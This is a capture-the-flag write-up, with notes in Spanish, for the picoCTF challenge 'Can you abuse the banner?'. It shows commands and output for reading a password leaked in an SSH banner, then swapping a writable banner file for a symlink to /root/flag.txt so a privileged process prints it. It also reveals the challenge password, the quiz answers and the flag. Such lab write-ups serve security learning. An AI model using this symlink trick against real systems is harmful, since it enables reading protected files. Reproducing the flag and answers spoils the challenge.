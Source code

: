 
Can you abuse the banner?

Additional details will be available after launching your challenge instance.


The server has been leaking some crucial information on `tethys.picoctf.net 51650`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 53198`. From the above information abuse the machine and find the flag in the /root directory.

- Do you know about symlinks?
- Maybe some small password cracking or guessing

## Solucion

```
nc tethys.picoctf.net 51650
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234


❯ nc tethys.picoctf.net 53198
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
john
player@challenge:~$



```
- listamos archivos, podemos escribir en el banner
```
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat tex
cat text
keep digging
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$
```

- borramos el banner y creamos una liga symbolica a la flag

```
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ cat banner
cat banner
cat: banner: Permission denied
player@challenge:~$ ls -la
ls -la
total 16
drwxr-xr-x 1 player player   20 Apr  3 17:42 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
lrwxrwxrwx 1 player player   14 Apr  3 17:42 banner -> /root/flag.txt
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$

```

- Nos loguemos nuevamente
```
nc tethys.picoctf.net 53198
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}

what is the password?
```